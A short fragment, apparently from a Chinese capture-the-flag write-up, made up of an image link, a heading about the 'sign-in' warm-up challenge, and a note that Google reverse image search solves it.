[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113536-46928116-d06a-1.png)

## 这才是签到

谷歌识图
